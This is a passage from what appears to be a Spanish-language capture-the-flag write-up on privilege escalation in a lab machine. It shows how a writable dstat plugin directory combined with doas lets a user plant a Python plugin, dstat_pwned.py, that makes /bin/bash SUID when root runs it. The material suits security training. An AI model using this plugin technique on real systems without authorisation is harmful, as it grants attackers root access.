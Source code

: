 El output de la herramienta es el siguiente:

```bash
player@soccer:/tmp$ doas /usr/bin/dstat 
You did not select any stats, using -cdngy by default.
--total-cpu-usage-- -dsk/total- -net/total- ---paging-- ---system--
usr sys idl wai stl| read  writ| recv  send|  in   out | int   csw 
  1   1  98   0   0| 214k   58k|   0     0 |   0     0 | 297   577 
  1   0  99   0   0|   0     0 | 198B  790B|   0     0 | 243   478 
  0   0 100   0   0|   0     0 |  66B  342B|   0     0 | 242   474 
  0   0  99   0   0|   0     0 |  66B  342B|   0     0 | 241   483 
  0   0 100   0   0|   0     0 | 126B  384B|   0     0 | 250   491
```

***dstat*** ofrece la posibilidad de utiizar ***plugins***. Los *plugins* son módulos que se pueden cargar en *dstat* para proporcionar información adicional sobre el rendimiento del sistema. Nosotros, en cambio, los podemos utilizar para crear un script malicioso, que al ser ejecutado por *root*, lleve a cabo una acción de *superusuario* en el sistema. *dstat* ofrece el parámetro *--list* para listar los *plugins* disponibles y *--\<plugin-name\>* para seleccionar uno:

```bash
player@soccer:/tmp$ dstat --help
...
 --list                   list all available plugins
  --<plugin-name>          enable external plugin by name (see --list)
...
```

Si miramos el [manual](https://linux.die.net/man/1/dstat), podemos ver los directorios donde se pueden alojar los *plugins*. Estos son:
* ~/.dstat/
* (path of binary)/plugins/
* /usr/share/dstat/
* ***/usr/local/share/dstat/***

En este último directorio recordemos que tenemos todos los permisos, ya que el grupo del directorio era *player*. Solo nos falta saber cual es la estructura de un plugin de *dstat*. Si listamos el contenido de */usr/share/dstat/* podemos ver que el formato es ***dstat_\<nombre_plugin\>.py***:

```bash
player@soccer:/tmp$ cat /usr/share/dstat/              
dstat_fan.py                  dstat_mongodb_opcount.py      dstat_nfsd4_ops.py            dstat_snooze.py               dstat_top_oom.py
dstat.py                      dstat_freespace.py
```
## Explotación de doas y dstat

En este punto, vamos a construirnos un *script* en *python* ***dstat_pwned.py*** que al ser ejecutado por *root* dé permisos *suid* a la *bash*:

```bash
player@soccer:/tmp$ cat /usr/local/share/dstat/dstat_pwned.py 
import os
os.system('chmod u+s /bin/bash')
```
